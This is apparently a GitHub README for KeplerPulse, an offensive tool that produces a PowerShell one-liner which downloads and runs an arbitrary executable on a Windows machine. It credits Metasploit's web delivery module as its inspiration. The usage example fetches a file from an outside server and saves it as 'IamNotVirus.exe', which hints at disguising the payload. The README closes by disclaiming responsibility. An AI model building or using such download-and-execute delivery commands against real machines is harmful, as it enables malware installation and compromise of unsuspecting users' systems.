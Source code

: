 # keplerpulse
KeplerPulse is a tool that generates a Powershell command that once executed on a Windows Machine, Downloads and executes your desired Executable on it. 

That's it. 

This was inspired by metasploit's web delivery module, But KeplerPulse isn't popping shells or hosting directly. Basically you can create such command without this tool.


### USAGE 
```bash
git clone https://github.com/quantumcore/keplerpulse
cd keplerpulse
sudo ./install.sh
keplerpulse --p https://myfileserver.com/hi.exe C:/Users/%USERNAME%/IamNotVirus.exe 
```

**Whatever you may do with keplerpulse is your own responsiblity.**
